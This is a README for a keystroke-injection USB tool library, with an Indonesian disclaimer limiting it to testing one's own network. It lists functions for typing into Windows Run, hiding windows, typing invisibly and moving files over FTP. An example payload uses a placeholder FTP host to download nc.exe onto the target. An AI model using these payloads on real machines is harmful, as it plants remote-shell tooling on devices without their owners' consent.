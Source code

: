 <hr>
<h5>Orbit Digi USB, More info => http://www.orbitsolutions.com/</h5>
<hr>

<b>DISCLAIMER</b>: Orbit Digi USB dirancang untuk digunakan dalam pengujian dan penemuan kekurangan pada jaringannya sendiri dengan tujuan memperbaiki kekurangan yang terdeteksi, <b>JANGAN</b> gunakan program di jaringan atau perangkat yang Anda tidak memiliki izin, kami tidak bertanggung jawab atas kerusakan yang Anda timbulkan dengan menggunakan perangkat lunak atau perangkat keras ini.
<hr/> 


OrbitKeyboard Function List
----
<b>pressAndRelease</b> = Press a key or combination of keyboard and release. usage : pressAndRelease(key_ALT, key_TAB)</br>
<b>press</b> = Press a key or combination of keyboard without release. usage : press(key_ALT, key_TAB)</br>
<b>release</b> = release a key or combination of keyboard. usage : release()</br>
<b>echo</b> = write a text without enter/newline/return. usage : echo("text")</br>
<b>echoEnter</b> = write the text and enter/newline/return. usage : echoEnter("text")</br>
<b>sleep</b> = delay or sleep for "n" milisecond. usage : sleep(5)</br>
<b>winRun</b> = open Windows Run and type a Windows command. usage : winRun("command")</br>
<b>hideWindow</b> = hide an active window not minimize. usage : hideWindow()</br>
<b>writeOnBackground</b> = make the window is not visible, and keep writing. usage : writeOnBackground("text")</br>
<b>minimizeWindow</b> = minimize an active window. usage : minimizeWindow()</br>
<b>winFTP</b> = download a file from FTP server or upload file to FTP server. usage : winFTP("put/get/mput/mget","FTPusername","FTPpassword","FTPhost","FTPport","filename")</br>
<b>done</b> = Turn the LED off when payload is loaded. usage : done()</br>


Example Payload
----
```c
#include <OrbitKeyboard.h>

OrbitSolutionsKeyboard en;

void setup()
{
  //Inisialisasi program
  en.init(1500);
  //Download single file
  en.winFTP("get","user_ftp","pass_ftp","host_ftp", "port_ftp","nc.exe");
}

void loop() {
  
}


```
[More Payload](https://github.com/ChandraOrbit/OrbitDigiUSB/tree/master/libraries/OrbitKeyboard/examples)
